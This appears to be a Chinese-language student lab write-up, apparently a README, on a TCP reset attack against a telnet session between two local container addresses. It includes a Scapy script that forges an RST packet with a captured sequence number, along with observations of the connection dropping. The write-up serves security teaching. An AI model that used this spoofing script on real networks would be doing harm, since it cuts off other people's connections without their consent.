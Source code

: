 你的攻击是否成功？成功了。
你怎么知道它是否成功？telnet的连接终止，同时Wireshark抓包看到了RST包和对RST ACK包。
你期待看到什么？期待看到telnet连接终止和RST包的发送。
你观察到了什么？观察到了telnet的连接终止，同时Wireshark抓包看到了RST包和对RST ACK包。
观察结果是你预想的那样吗？二者一致。  

## scapy

scapy脚本

```python
#!/usr/bin/python3
from scapy.all import *
print("SENDING RESET PACKET...")
ip = IP(src="172.17.0.2", dst="172.17.0.3")
tcp = TCP(sport=40498, dport=23, flags="R", seq=3083117262)
pkt = ip/tcp
ls(pkt)
send(pkt,verbose=0)
```

首先用telnet建立172.17.0.2 和 172.17.0.3 之间的TCP通信，用Wireshark抓包观察到连接成功建
立，同时获取数据包的端口号和序列号信息，如下图：  

![image-20220410203741402](readme.assets/image-20220410203741402.png)

运行脚本 观察抓到了RST包 并且连接断开

![image-20220410204201754](readme.assets/image-20220410204201754.png)
